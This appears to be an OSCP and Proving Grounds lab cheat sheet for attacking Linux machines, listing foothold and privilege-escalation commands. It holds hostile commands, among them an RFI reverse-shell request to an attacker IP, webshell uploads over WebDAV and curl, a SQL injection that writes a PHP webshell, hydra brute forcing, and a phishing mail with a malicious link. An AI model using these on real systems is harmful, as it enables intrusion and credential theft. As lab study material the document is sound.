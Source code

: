 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Linux

{% hint style="info" %}
Based on the following PG Practice, PG Play, and PEN-200 boxes: Amaterasu, Apex, Astronaut, BBScute, BitForge, Blogger, Bratarina, Bullybox, ClamAV, Clue, Cockpit, Exfiltrated, Extplorer, Fanatastic, Fired, Flu, FunboxEasyEnum, Gaara, GlasgowSmile, Hawat, Hetemit, Hunit, LaVita, Levram, Loly, Mantis, Marketing, Mzeeav, Nibbles, Nukem, Payday, PC, Pebbles, Pelican, Peppo, Postfish, Potato, QuackerJack, Readys, Roquefort, Scrutiny, Snookums, Sorcerer, SpiderSociety, SPX, Stapler, Sybaris, Vmdak, Walla, WallpaperHub, Wombo, Workaholic, Xposedapi, Zab, ZenPhoto, Zipper,  Crystal (OSCP A), Aero (OSCP A), Berlin (OSCP B), Kiero (OSCP B),  Frankfurt (OSCP C), and Charlie (OSCP C).
{% endhint %}

## Foothold

<details>

<summary>Port Scan</summary>

The `nmap-scan` script can be found [here](https://github.com/CSpanias/ctf-scripts/tree/main?tab=readme-ov-file#nmap-scansh).

```bash
$ sudo nmap-scan <target-IP>
```

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/web">HTTP(S)</a></summary>

* [ ] [Dirbust](https://x7331.gitbook.io/boxes/web/dirbusting) HTTP(S) ports with a [directory list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-directories.txt) (plus server-specific extensions) and a [file list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-files.txt)&#x20;

{% code overflow="wrap" %}
```bash
# Dirbust with a directory list
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -ic -ac -c -u http://access/FUZZ -e .aspx,.php,
​


​# Dirbust with a file list
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -ic -ac -c -u http://access/FUZZ
```
{% endcode %}

* [ ] Application-specific PoCs (RCE, LFI, RFI)

{% code overflow="wrap" %}
```bash
# CLI tool
searchsploit <appName> <version>

# Google dork
site:github.com <appName> exploit poc

# RFI revshell
curl --path-as-is -s "http://10.10.10.10:4443/site/index.php?page=http://192.168.45.241:443/revshell_ivan.php" --proxy 127.0.0.1:8080
```
{% endcode %}

* [ ] [File Uploads](https://x7331.gitbook.io/boxes/web/file-uploads)
* [ ] Default/Weak Creds

```bash
uv run creds search <appName>
```

* [ ] BFA

{% code overflow="wrap" %}
```bash
# POST request
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt 'http-post-form://target:8081/login.aspx:username=^USER^&password=^PASS^:F=403'

# POST request (base64-encoded credentials)
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt 'http-post-form://target:8081/login.aspx:username=^USER64^&password=^PASS64^:F=403'
```
{% endcode %}

* [ ] [WebDAV](https://x7331.gitbook.io/boxes/web/webdav)

{% code overflow="wrap" %}
```bash
# Connect to WebDAV
$ cadaver http://x7331
Authentication required for hutch on server 'x7331':
Username: x7331
Password:
# Upload a webshell
dav:/> put /usr/share/webshells/aspx/cmdasp.aspx cmdasp.aspx

# Upload a webshell directly
$ curl -T '/home/kali/shell.aspx' 'http://192.168.64.122/' -u x7331:Pass123!
```
{% endcode %}

* [ ] [Custom wordlists](https://x7331.gitbook.io/boxes/tools/wordlists)

```bash
# Create a userlist based on the site users
username-anarchy -i site_users > anarchy_output

# Create a passlist based on the site content
cewl --write cewl_output http://192.168.202.21/
```

* [ ] [Git repositories](https://x7331.gitbook.io/boxes/web/devops/git-tools)

```bash
# Dump the repository
git-dumper http://target.lab/.git git_repo

# Write all commits to a file
git log | grep commit | cut -d " " -f2 | xargs git show > commits
​
# Open the commits file with VSCode
code commits
```

* [ ] [SQLi](https://x7331.gitbook.io/boxes/web/injections/sqli) (`sqlmap` is allowed for enumeration but not for exploitation)

{% code overflow="wrap" %}
```bash
# Enumeration
sqlmap -r login.req --batch
```
{% endcode %}

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp">Unique Ports</a></summary>



</details>

<details>

<summary><a href="../../services/shares/smb-139-445.md#usage">SMB</a></summary>

* [ ] Known vulnerabilities

```bash
sudo nmap -script=smb-vuln\* -p445 10.10.10.10
```

* [ ] List and enumerate shares

{% code overflow="wrap" %}
```bash
# List shares and permissions
$ uv run nxc smb DC01 -u celia.almeda -p 7k8XHk3dMtmpnC7 --shares

# Download the target share
$ nxc smb MS02 -u x7331 -p Pass123! -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=./ MAX_FILE_SIZE=99999999

# Connect and download all files
$ smbclient //target/share -p 12445
Password for [WORKGROUP\x7331]:
Anonymous login successful        
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```
{% endcode %}

* [ ] `WRITE` access ([steal hashes](https://x7331.gitbook.io/boxes/services/tcp/shares/139-445-smb#hashes))

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/shares/21-ftp">FTP</a></summary>

* [ ] Anonymous login

{% code overflow="wrap" %}
```bash
# Anonymous login
ftp anonymous@target
ftp ftp@target
```
{% endcode %}

* [ ] BFA

```bash
hydra -l <user> -P <passlist> ftp://<target>
```

* [ ] Enumerate directories

```bash
# Download dir
wget -r ftp://ftp@target_directory
```

* [ ] Upload files

```bash
ftp> put revshell_ivan.php
```

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/mail/25-587-smtp">SMTP</a>, <a href="https://x7331.gitbook.io/boxes/services/tcp/mail/110-995-pop3">POP3</a></summary>

* [ ] Username enumeration (SMTP)

```bash
smtp-user-enum -M VRFY -U anarchy_output -t 10.10.10.10
```

* [ ] Inbox enumeration (POP3)

```bash
$ telnet 10.10.10.10 110
USER x7331
+OK x7331 is known here.
PASS Pass123!
+OK Welcome! 4 messages (4744 bytes)
LIST
+OK 4 messages, 4744 bytes
1 1342
2 963
3 1347
4 1092
RETR 1
```

* [ ] Phising attachments ([library-ms](https://x7331.gitbook.io/boxes/social-engineering/phising#attachment), [libre-office](https://x7331.gitbook.io/boxes/web/file-uploads/file-types/libreoffice), [pdf](https://x7331.gitbook.io/boxes/web/file-uploads/file-types/pdf)) or malicious links

{% code overflow="wrap" %}
```bash
# Email body with a malicious link
$ cat body.txt
Please lick here to register: http://192.168.45.170/login.html

# Send an email to multiple email addresses
$ swaks --to $(cat emails.txt | tr '\n' ',') --from it@target.off --header "Subject: ERP Registration link" --body @body.txt --server 192.168.161.137 --port 25

# Listener to receive the response
$ sudo nc -lvnp 80
```
{% endcode %}

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/dbms">Databases</a></summary>

* [ ] [MySQL/MariaDB](https://x7331.gitbook.io/boxes/services/tcp/dbms/sql/3306-mysql-mariadb)

{% code overflow="wrap" %}
```bash
# Connect
mysql -h kali -u x7331 -pPass123! --skip-ssl

# Webshell
'UNION SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/srv/http/webshell.php';-- 
```
{% endcode %}

* [ ] [PostgreSQL](https://x7331.gitbook.io/boxes/services/tcp/dbms/sql/5432-postgresql)

```bash
# Connect
psql -h 127.0.0.1 -p 5437 -U postgresql -W
```

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/udp/161-snmp">SNMP</a></summary>

```bash
# User-related strings
snmpwalk -v2c -c public <target> 1.3.6.1.4.1

# Public strings
snmpwalk -v2c -c public <target>

# Grep for keywords
snmpwalk -v2c -c public <target> | grep -Ei 'user|admin|name|pass|password'

# System-related strings
snmpwalk -v2c -c public <target> 1.3.6.1.2.1.1

# Running processes
snmpwalk -v2c -c public <target> 1.3.6.1.2.1.25.4.2.1.2
```

</details>

## Privilege Escalation

<details>

<summary>User Context</summary>

* [ ] [Permissions](https://x7331.gitbook.io/boxes/tl-dr/infra/os/linux/host-recon#users-and-groups), [groups](https://x7331.gitbook.io/boxes/tl-dr/infra/os/linux/privilege-escalation/groups), and shell history

```bash
$ sudo -l


$ id


$ cat /home/<user>/.bash_history

```

</details>

<details>

<summary>Host Enumeration</summary>

* [ ] [Manual Enumeration](https://x7331.gitbook.io/boxes/tl-dr/infra/os/linux/host-recon)

```bash
# Enumerate SUIDs
find / -type f -perm -u=s 2>/dev/null

# Enumerate capabilities
getcap -r / 2>/dev/null

# Local TCP sockets
netstat -anot

# Cronjobs
cat /etc/crontab

# Environment variables
env

# Sudo version
sudo --version

# Kernel version
uname -a
```

* [ ] [LinPEAS](https://x7331.gitbook.io/boxes/tl-dr/infra/infra-tools/pe-scripts#linux)

```bash
$ wget 192.168.45.216:443/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

* [ ] Running processes ([pspy](https://x7331.gitbook.io/boxes/tl-dr/infra/infra-tools/pspy), let it run for at least two minutes)

```bash
$ wget 192.168.45.216:443/pspy64
$ chmod +x pspy64
$ ./pspy64
```

* [ ] Passwords

```bash
grep -rH "password"
```

</details>

<details>

<summary><a href="../../services/shares/smb-139-445.md#usage">SMB</a></summary>

* [ ] List and enumerate shares

{% code overflow="wrap" %}
```bash
# List shares and permissions
uv run nxc smb DC01 -u celia.almeda -p 7k8XHk3dMtmpnC7 --shares

# Download the target share
nxc smb MS02 -u x7331 -p Pass123! -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=./ MAX_FILE_SIZE=99999999
```
{% endcode %}

* [ ] `WRITE` access ([steal hashes](https://x7331.gitbook.io/boxes/services/tcp/shares/139-445-smb#hashes))

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/dbms/sql/3306-mysql-mariadb">MySQL/MariaDB</a></summary>

* [ ] Enumerate tables

```bash
mysql -h 127.0.0.1 -u x7331 -pPass123! --skip-ssl
```

</details>
